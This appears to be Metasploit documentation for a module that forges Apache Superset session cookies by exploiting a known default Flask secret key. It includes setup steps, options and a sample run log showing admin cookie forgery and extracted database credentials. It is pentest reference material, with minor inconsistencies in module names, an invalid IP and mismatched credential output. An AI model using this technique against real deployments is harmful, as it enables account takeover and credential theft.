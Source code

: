 
## Vulnerable Application

Apache Superset versions <= 2.0.0 utilize Flask with a known default secret key which is used to sign HTTP cookies.
These cookies can therefore be forged. If a user is able to login to the site, they can decode the cookie, set their user_id to that
of an administrator, and re-sign the cookie. This valid cookie can then be used to login as the targeted user and retrieve database
credentials saved in Apache Superset.

## App Install

```
sudo docker run -p 8088:8088 --name superset apache/superset:2.0.0
sudo docker exec -it superset superset fab create-admin \
              --username admin \
              --firstname Superset \
              --lastname Admin \
              --email admin@superset.com \
              --password admin

sudo docker exec -it superset superset db upgrade
sudo docker exec -it superset superset init
```

Login to the app, click 'list users' under 'Settings', then click '+'.  make a new user with 'Public' as the role.

If you want any database credentials to be pulled, you'll need to configure a database as well.

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/apache_superset_priv_esc`
1. Do: `set username [username]`
1. Do: `set password [password]`
1. Do: `run`
1. You should get an admin cookie and the database credentials

## Options

### USERNAME

The username to authenticate as. Required with no default.

### PASSWORD

The password for the specified username. Required with no default.

### ADMIN_ID

The ID of an admin account. Defaults to `1`

### SECRET_KEYS_FILE

A file containing secret keys to try. One per line. Defaults to `metasploit-framework/data/wordlists/superset_secret_keys.txt`

## Scenarios

### Superset 2.0.0 Docker image

```
msf6 > use auxiliary/gather/apache_superset_cookie_sig_priv_esc 
msf6 auxiliary(gather/apache_superset_priv_esc) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 auxiliary(gather/apache_superset_priv_esc) > set username user
username => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set password user
password => user
msf6 auxiliary(gather/apache_superset_priv_esc) > set verbose true
verbose => true
msf6 auxiliary(gather/apache_superset_priv_esc) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. Apache Supset 2.0.0 is vulnerable
[*] 127.0.0.1:8088 - CSRF Token: IjkzNDBmZmI4ZDc4M2I4NWNiYzlmNWQwOGM4NTcwZDUzZGVhZDMwZjEi.ZP8uyQ.iBpplhnMpXOZnjiV1Xh_reR_uLw
[*] 127.0.0.1:8088 - Initial Cookie: session=eyJjc3JmX3Rva2VuIjoiOTM0MGZmYjhkNzgzYjg1Y2JjOWY1ZDA4Yzg1NzBkNTNkZWFkMzBmMSIsImxvY2FsZSI6ImVuIn0.ZP8uyQ.jHXs3u8dqoBUWeL1vjUTxXOWLAo;
[*] 127.0.0.1:8088 - Decoded Cookie: {"csrf_token"=>"9340ffb8d783b85cbc9f5d08c8570d53dead30f1", "locale"=>"en"}
[*] 127.0.0.1:8088 - Attempting login
[+] 127.0.0.1:8088 - Logged in Cookie: session=.eJwNjUEKwyAQRa8isw7FYiXGG3TXfQhhojMmdDCgoaWE3L2uHnx4_50ws2BdqYIfT1BHA3yx5C0n6OCZPyhbVLKnLd_USwgrqaP8FCZsC0zX1LWLQnUFzyiVOgi18Hzsb8rgYTAPzby42DuzOBuWMLCN2gVnex2tiYTRaL63mOwBhZrTxOsPSKAxLA.ZP8uyQ.UvNg89u5vOnyFiip1diP8ABrDCY;
.eJwNjUEKwyAQRa8isw7FYiXGG3TXfQhhojMmdDCgoaWE3L2uHnx4_50ws2BdqYIfT1BHA3yx5C0n6OCZPyhbVLKnLd_USwgrqaP8FCZsC0zX1LWLQnUFzyiVOgi18Hzsb8rgYTAPzby42DuzOBuWMLCN2gVnex2tiYTRaL63mOwBhZrTxOsPSKAxLA.ZP8uyQ.UvNg89u5vOnyFiip1diP8ABrDCY
[*] 127.0.0.1:8088 - Checking secret key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[-] 127.0.0.1:8088 - Incorrect Secret Key: \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h
[*] 127.0.0.1:8088 - Checking secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[+] 127.0.0.1:8088 - Found secret key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - Modified cookie: {"_flashes"=>[{" t"=>["warning", "Invalid login. Please try again."]}], "_fresh"=>false, "csrf_token"=>"9340ffb8d783b85cbc9f5d08c8570d53dead30f1", "locale"=>"en", "user_id"=>1}
[*] 127.0.0.1:8088 - Attempting to resign with key: CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET
[*] 127.0.0.1:8088 - New signed cookie: eyJfZmxhc2hlcyI6W3siIHQiOlsid2FybmluZyIsIkludmFsaWQgbG9naW4uIFBsZWFzZSB0cnkgYWdhaW4uIl19XSwiX2ZyZXNoIjpmYWxzZSwiY3NyZl90b2tlbiI6IjkzNDBmZmI4ZDc4M2I4NWNiYzlmNWQwOGM4NTcwZDUzZGVhZDMwZjEiLCJsb2NhbGUiOiJlbiIsInVzZXJfaWQiOjF9.ZP8uyQ.7Rgp9a7iPK-m7NQRbWpixG62CMo
[+] 127.0.0.1:8088 - Cookie validated to user: admin
[+] Found Super Secret DB: postgresql://dbuser:mysecretpassword@1.1.1.1:15432/supersetdb
[*] Done enumerating databases
[*] Auxiliary module execution completed
msf6 auxiliary(gather/apache_superset_priv_esc) > creds
Credentials
===========

host           origin         service           public  private       realm  private_type  JtR Format
----           ------         -------           ------  -------       -----  ------------  ----------
111.222.3.444  111.222.3.444  3306/tcp (mysql)  root    my-secret-pw         Password      
```
